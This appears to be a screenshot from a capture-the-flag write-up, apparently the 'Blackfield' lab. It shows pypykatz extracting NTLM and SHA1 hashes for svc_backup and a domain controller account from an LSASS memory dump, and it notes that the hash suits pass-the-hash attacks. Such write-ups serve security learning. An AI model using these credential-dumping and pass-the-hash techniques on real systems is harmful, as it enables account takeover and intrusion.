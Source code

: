 The LSASS memory dump analysis with `pypykatz` reveals the NTLM hash for the user `svc_backup`: `9658d1d1dcd9250115e2205d9f48400d`. This hash can be used for Pass-The-Hash attacks.

```bash
pypykatz lsa minidump lsass.DMP

zsh: /home/kali/.local/bin/pypykatz: bad interpreter: /home/kali/.local/share/pipx/venvs/pypykatz/bin/python: no such file or directory
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
  == MSV ==
   Username: svc_backup
   Domain: BLACKFIELD
   LM: NA
   NT: 9658d1d1dcd9250115e2205d9f48400d
   SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
   DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
  == WDIGEST [633ba]==
   username svc_backup
   domainname BLACKFIELD
   password None
   password (hex)
  == Kerberos ==
   Username: svc_backup
   Domain: BLACKFIELD.LOCAL
  == WDIGEST [633ba]==
   username svc_backup
   domainname BLACKFIELD
   password None
   password (hex)

== LogonSession ==
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2020-02-23T17:59:38.218491+00:00
sid S-1-5-96-0-2
luid 365835
  == MSV ==
   Username: DC01$
   Domain: BLACKFIELD
   LM: NA
   NT: b624dc83a27cc29da11d9bf25efea796
   SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
   DPAPI: 0000000000000000000000000000000000000000
  == WDIGEST [5950b]==
   username DC01$
   domainname BLACKFIELD
   password None
   password (hex)
  == Kerberos ==
   Username: DC01$
   Domain: BLACKFIELD.local
```